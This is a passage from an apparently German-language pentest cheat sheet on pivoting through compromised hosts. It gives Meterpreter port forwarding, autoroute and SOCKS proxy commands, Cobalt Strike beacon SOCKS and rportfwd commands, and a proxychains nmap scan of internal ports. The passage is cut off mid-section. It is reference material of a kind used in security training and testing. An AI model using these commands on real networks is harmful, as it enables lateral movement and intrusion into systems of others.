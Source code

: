### Port2Port

Lokaler Port --> Kompromittierter Host (aktive Sitzung) --> Dritte\_Box:Port
```bash
# Inside a meterpreter session
portfwd add -l <attacker_port> -p <Remote_port> -r <Remote_host>
```
### SOCKS
```bash
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 255.255.255.0 8)
use auxiliary/server/socks_proxy
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
Eine andere Möglichkeit:
```bash
background #meterpreter session
use post/multi/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks_proxy
set VERSION 4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
## Cobalt Strike

### SOCKS-Proxy

Öffnen Sie einen Port im Teamserver, der an allen Schnittstellen lauscht und verwendet werden kann, um **den Verkehr durch das Beacon zu leiten**.
```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```
### rPort2Port

{% hint style="warning" %}
In diesem Fall wird der **Port im Beacon-Host geöffnet**, nicht im Team-Server, und der Verkehr wird an den Team-Server gesendet und von dort an den angegebenen Host:Port.
{% endhint %}
```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```
Zu beachten:
